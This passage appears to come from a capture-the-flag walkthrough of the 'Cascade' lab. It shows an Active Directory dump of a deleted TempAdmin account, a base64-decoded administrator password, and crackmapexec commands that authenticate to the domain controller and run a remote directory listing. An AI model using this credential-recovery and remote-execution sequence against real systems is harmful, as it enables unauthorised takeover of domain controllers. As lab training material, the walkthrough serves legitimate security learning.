 LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM



$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles

crackmapexec smb 10.129.155.114 -d cascade.local -u administrator -p baCT3r1aN00dles

$ crackmapexec smb 10.129.155.114 -d cascade.local -u administrator -p baCT3r1aN00dles                                         
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)
                                                                                                                                                                                
┌──(ax㉿nms)-[~]
└─$ crackmapexec smb 10.129.155.114 -d cascade.local -u administrator -p baCT3r1aN00dles -x "dir C:\Users\Administrator\Desktop" 
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)
SMB         10.129.155.114  445    CASC-DC1         [+] Executed command 
SMB         10.129.155.114  445    CASC-DC1         Volume in drive C has no label.
SMB         10.129.155.114  445    CASC-DC1         Volume Serial Number is CF98-2F06
SMB         10.129.155.114  445    CASC-DC1         
SMB         10.129.155.114  445    CASC-DC1         Directory of C:\Users\Administrator\Desktop
SMB         10.129.155.114  445    CASC-DC1         
SMB         10.129.155.114  445    CASC-DC1         08/11/2021  15:58    <DIR>          .
SMB         10.129.155.114  445    CASC-DC1         08/11/2021  15:58    <DIR>          ..
SMB         10.129.155.114  445    CASC-DC1         10/02/2022  19:48                34 root.txt
SMB         10.129.155.114  445    CASC-DC1         1 File(s)             34 bytes
SMB         10.129.155.114  445    CASC-DC1         2 Dir(s)   6,664,507,392 bytes free
                                                                                             